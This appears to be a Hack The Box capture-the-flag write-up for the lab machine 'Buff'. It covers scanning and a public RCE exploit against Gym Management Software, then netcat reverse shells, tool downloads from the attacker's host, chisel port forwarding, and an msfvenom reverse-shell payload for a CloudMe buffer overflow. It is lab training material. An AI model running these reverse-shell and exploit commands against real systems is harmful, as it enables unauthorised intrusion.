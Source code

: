 # Box 



![buff](img/Screenshot_2020-12-24_17-26-56.png)

https://www.hackthebox.eu/home/machines/profile/263

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of Contents

* [Enumeration](#enumeration)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)



# Contents



## Enumeration



Let's start with nmap  : 

```bash
nmap -sV -Pn -sC -oN scan 10.10.10.198
```

![nmap](img/image-20201225184845422.png)

Now we use gobuster to do somes discoveries : 

```bash
gobuster -o dirb.txt  dir -u http://10.10.10.198:8080/ -w /usr/share/wordlists/dirb/common.txt
```

![gobuster](img/image-20201225185543475.png)

There was nothing relevant in this gobuster, but we see a license page.

```
mrb3n's Bro Hut
Made using Gym Management Software 1.0 
```

After looking for the webpage, we can find an exploit to do a RCE https://www.exploit-db.com/exploits/48506.

## Exploitation



After downloading it, we can use it :

```bash
python 48506.py http://10.10.10.198:8080
```



![RCE](img/image-20201225190510920.png)

## Post-Exploitation 

### User



We can know get the user.txt flag.

![user_flag](img/image-20201225190811901.png)



### Root 

We need to get a proper  shell we need to setup our python server `python -m SimpleHTTPServer 4444` and then : 

```bash
curl http://10.10.10.198:4444/nc.exe
```

 Then on the remote machine : 

```bash
nc.exe 10.10.14.28 1234 -e cmd.exe
```

![reverse_shell](img/image-20201225192251101.png)

 

I upload a file called jaws-enum.ps1  (https://github.com/411Hall/JAWS) to enumerate.

```bash
curl http://10.10.14.28:4444/jaws-enum.ps1 -o jaws-enum.ps1
```

```bash
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1
```

During the enumeration we can see a service CloudMe running on port 8888 on localhost. We need to redirect the port to our local machine. 

I will use chisel (https://github.com/jpillora/chisel/releases) for this, you can also try plink.

First you need to upload chisel.exe on the remote machine using curl.
Now on your machine :

```bash
./chisel_1.7.2_linux_amd64 server --port 8000 --reverse
```

 on the remote machine :

```
chisel.exe client 10.10.14.28:8000 R:8888:127.0.0.1:8888
```

![image-20201225201843344](img/image-20201225201843344.png) 

We know have the traffic redirected to our machine.

After a bit of research we find this exploit that we download:  https://www.exploit-db.com/exploits/48389

We can now replace the payload : 

```bash
msfvenom  -p windows/exec CMD='c:\xampp\htdocs\gym\upload\nc.exe 10.10.14.28 3333 -e cmd.exe' -b '\x00\x0A\x0D\x20' -f python -v payload
```

![image-20201225202133473](img/image-20201225202133473.png)

Our exploit shoud look like this : 

![image-20201225202454133](img/image-20201225202454133.png)

Launch the script and we have rooted our box.

![image-20201225202302383](img/image-20201225202302383.png)


​			
